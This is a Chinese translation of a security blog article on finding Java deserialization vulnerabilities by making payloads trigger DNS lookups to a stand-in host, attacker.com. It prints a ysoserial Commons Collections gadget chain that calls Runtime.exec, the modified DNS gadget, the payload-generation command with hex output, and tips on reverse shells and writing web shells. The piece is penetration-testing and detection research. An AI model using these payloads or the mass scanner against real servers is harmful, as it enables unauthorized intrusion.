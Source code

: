 > 原文链接: https://www.anquanke.com//post/id/85793 


# 【技术分享】通过泄露到DNS的信息检测反序列化漏洞（含演示视频）


                                阅读量   
                                **127799**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/](http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)

译文仅供参考，具体内容表达以及含义原文为准

**[![](https://p0.ssl.qhimg.com/t0169262402e6ea2566.jpg)](https://p0.ssl.qhimg.com/t0169262402e6ea2566.jpg)**

****

翻译：[pwn_361](http://bobao.360.cn/member/contribute?uid=2798962642)

稿费：200RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**前言**

此刻，JAVA反序列化漏洞正在被厂商和攻击者所熟知。渗透测试人员今后还会遇到这种类型的漏洞。使用当前的一些小工具可以识别出这些漏洞，不过，大多数可用的小工具依赖于命令执行API。由于目标操作系统环境限制条件存在区别，因此，有效载荷的命令在目标系统中执行时，不一定会每次都成功。另外，在目标系统中，载荷所使用的命令也有可能不存在，或者载荷所要求的参数可能因命令的版本或安装的环境而有所不同(以GUN的netcat VS OpenBSD的netcat为例)。

由于在部分目标系统环境中存在上面提到的关于执行命令的一些限制，要想探测出这些漏洞就需要更多的试验和错误，对于目标，可能需要发送多个有效载荷，这使得自动化探测更加困难。制作一个通用的有效载荷，将会简化大规模反序列化漏洞的探测过程。在介绍我们的扫描方法之前，让我们为“更可靠的有效载荷”定义一个具体的实现目标。

<br>

**目标**

1.使有效载荷和具体的操作系统无关，如Windows、Ubuntu、Alpine Linux (Docker)、Solaris、AIX等系统。

2.即使目标的WEB容器运行在安全管理器或沙盒中，也能探测到发生的事情。

3.支持最常见的JVM1.6+版本，和可能的1.5*版本。

[YSoSerial](https://github.com/frohoff/ysoserial)生成的大多数载荷都符合这些条件。

[![](https://p0.ssl.qhimg.com/t019ec7ebb28033c491.png)](https://p0.ssl.qhimg.com/t019ec7ebb28033c491.png)

<br>

**示例场景**

GoSecure的渗透测试小组遇到过几个需要对当前的小工具(或者称为载荷、组件)做一些修改的案例。例如，发现了一个旧的JBoss实例，并且对外开放了JMXInvokerServlet接口。根据它的版本，我们预计它应该存在可利用的漏洞。但是令人惊讶的是，我们利用所有已知的漏洞测试工具对这个JBoss实例进行测试，但是都失败了。

这些测试工具的失败意味着存在两种可能性：一是这些小工具在这个特定的环境中不起作用，二是目标系统已经打了补丁。然而，我们利用一个简单的有效载荷(就是后面我们创建的DNS解析载荷)做了一个DNS查询，证实了目标系统确实存在相应漏洞。基于这个事实，我们认为，为了避免使用命令执行API，创建一个替代的小工具是有必要的。

<br>

**创建一个DNS小工具**

为了确认目标是否存在漏洞，我们将对YSoSerial(frohoff/ysoserial、未修改)的一个已经存在的小工具进行修改。我们将使用一个简单的代码代替命令执行载荷，该代码将触发一个DNS解析。

Ysoserial中最常用的一个有效载荷是“Commons Collection”。其中，“Transformer”链会触发下面的代码：

Transformer链(使用了命令执行载荷)：



```
final Transformer[] transformers = new Transformer[] `{`
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] `{`String.class, Class[].class `}`, new Object[] `{`"getRuntime", new Class[0] `}`),
    new InvokerTransformer("invoke", new Class[] `{`Object.class, Object[].class `}`, new Object[] `{`null, new Object[0] `}`),
    new InvokerTransformer("exec", new Class[] `{` String.class `}`, execArgs),
    new ConstantTransformer(1) `}`;
```

触发的代码：

```
((Runtime) Runtime.class.getMethod("getRuntime", new Class[0]).invoke(new Class[]`{` Object.class, Object.class`}`,new Object[0])).exec("echo your command here");
```

上面是未经修改的Ysoserial的代码，为了不使用命令执行API，我们对它进行必要的修改。同时，我们不能使用“nslookup”命令来触发DNS解析，因为我们要避免使用命令执行API。为此，我们将直接使用java API。

下面是我们修改过的Transformer链(使用了DNS解析载荷)：

```
new URL("http://resolve-me-aaaa.attacker.com").openConnection().getInputStream().read();
```



**确认目标是否存在漏洞**

如下图，我们利用Ysoserial(修改过的)生成了一个能解析独特主机名的一个载荷(或者称为配件、小工具)。将载荷发送给目标服务器后，如果服务器处理了任何反序列化，这个独特名称就可以作为追踪的方法。服务器可能会多次评估这个漏洞，或带有一些延时。使用独特主机名可以避免有可能产生的混淆，特别是当扫描多个主机时。在[我们的ysoserial分支](https://github.com/GoSecure/ysoserial)(GoSecure/ysoserial、已修改)中，已经有可用的完整POC代码。如下图，生成载荷：



```
$ java -jar ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections1Dns http://resolve-me-aaaa.attacker.com | xxd
00000000: aced 0005 7372 0032 7375 6e2e 7265 666c ....sr.2sun.refl
00000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41 ect.annotation.A
00000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174 nnotationInvocat
00000030: 696f 6e48 616e 646c 6572 55ca f50f 15cb ionHandlerU.....
00000040: 7ea5 0200 024c 000c 6d65 6d62 6572 5661 ~....L..memberVa
00000050: 6c75 6573 7400 0f4c 6a61 7661 2f75 7469 luest..Ljava/uti
00000060: 6c2f 4d61 703b 4c00 0474 7970 6574 0011 l/Map;L..typet..
00000070: 4c6a 6176 612f 6c61 6e67 2f43 6c61 7373 Ljava/lang/Class
00000080: 3b78 7073 7d00 0000 0100 0d6a 6176 612e ;xps`}`......java.
00000090: 7574 696c 2e4d 6170 7872 0017 6a61 7661 util.Mapxr..java
000000a0: 2e6c 616e 672e 7265 666c 6563 742e 5072 .lang.reflect.Pr
000000b0: 6f78 79e1 27da 20cc 1043 cb02 0001 4c00 oxy.'. ..C....L.
000000c0: 0168 7400 254c 6a61 7661 2f6c 616e 672f .ht.%Ljava/lang/
000000d0: 7265 666c 6563 742f 496e 766f 6361 7469 reflect/Invocati
000000e0: 6f6e 4861 6e64 6c65 723b 7870 7371 007e onHandler;xpsq.~
[...]
```

向目标系统发送载荷后，如果在我们配置的DNS服务器上收到了一个相应的DNS查询请求，那么就可以确认目标存在漏洞。为了记录DNS查询请求，我们可以利用很多工具，如 [DNS chef](http://thesprawl.org/projects/dnschef/)，[Burp Collaborator](https://portswigger.net/burp/help/collaborator.html)或[tcpdump](https://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/)。在下面的样本中，我们使用DNS Chef来记录查询请求，可以看到DNS查询请求成功到达测试服务器。



```
# python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
[*] DNSChef started on interface: 0.0.0.0
[*] Using the following nameservers: 8.8.8.8
[*] Cooking all A replies to point to 127.0.0.1
[12:16:05] 74.125.X.X: cooking the response of type 'A' for resolve-me-aaaa.attacker.com to 127.0.0.1
[12:16:05] 192.221.X.X: cooking the response of type 'A' for resolve-me-aaaa.attacker.com to 127.0.0.1
```

下图是这种异步扫描方法的直观表示图：

[![](https://p4.ssl.qhimg.com/t01239020b3b7a03854.png)](https://p4.ssl.qhimg.com/t01239020b3b7a03854.png)

<br>

**其他考虑**

一旦确认目标存在漏洞，渗透测试人员为了得到一个SHELL，需要继续做一些试验、或触发一些错误命令。关于这个工作，有一些有用的技巧：

1.确保你已经测试了一些反向SHELL命令(查看[Reverse Shell Cheat-Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))。

2.“Common collection”载荷在某些特定的JVM中可能会失败(如IBM J9)。Mathias Kaiser制作了一个特殊的载荷，支持这个不常见的JVM，[详情请看CommonsCollections6](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)。

3.如果目标强制执行了一个安全管理器，你可能需要制作一个自定义的小工具。你可以通过“[DEADCODE’s blog article](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)”去了解transformer链的大致情况。一种流行的方法是找到Web根目录的路径，并编写一个可以稍后执行的web shell。关于此，[在GoSecure仓库](https://github.com/GoSecure/ysoserial/tree/master/src/main/java/ysoserial/payloads)中有一些样本工具。再说一次，如果目标环境中的安全管理器会阻止命令执行，才会需要这些工具。

<br>

**演示视频**

我们创建了一个异步反序列化漏洞扫描工具“[Break Fast Serial](https://github.com/GoSecure/break-fast-serial)”，对DNS Chef也做了一点修改，下面是该工具的简要演示。演示了对单个目标的扫描。DNS泄漏的信息证明了这个服务器存在反序列化漏洞。该工具还支持对多个IP、端口进行扫描。该扫描器将对JBoss，Weblogic和Jenkins易受攻击的版本进行探测。对于如何配置DNS Chef服务器、如何生成载荷，及更多其它详细信息，请阅读[参考手册](https://github.com/GoSecure/break-fast-serial#mass-scan)，及相应POC代码。



<br>

**结论**

泄漏到DNS的信息有利于以下三个方面：

1.它可以实现反序列化漏洞的探测。

2.它有利于自动扫描多个主机。

3.即使目标服务器存在严格的防火墙限制，它也能识别出存在的漏洞。

我们发布了一款异步的[自动扫描器](https://github.com/GoSecure/break-fast-serial)，该扫描器能对JBoss，Weblogic和Jenkins易受攻击的版本进行探测。今后，我们会有计划的支持其他服务、框架。我们邀请测试者参与到这个开发过程中，这种更广泛和更快的方法，对防御者早期检测出反序列化漏洞很有帮助。

这篇文章主要关注了“CommonsCollection”载荷，但是我们建立小工具所使用的API也适用于其他载荷。同样的规则也适用于探测其他漏洞，如最近出现了[Struts漏洞](https://struts.apache.org/docs/s2-045.html)。

<br>

**参考**

[AppSecCali 2015: Marshalling Pickles](https://frohoff.github.io/appseccali-marshalling-pickles/)

[Blind Java Deserialization](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)

[Blind-Java-Deserialization-Part-II](https://deadcode.me/blog/2016/09/18/Blind-Java-Deserialization-Part-II.html)
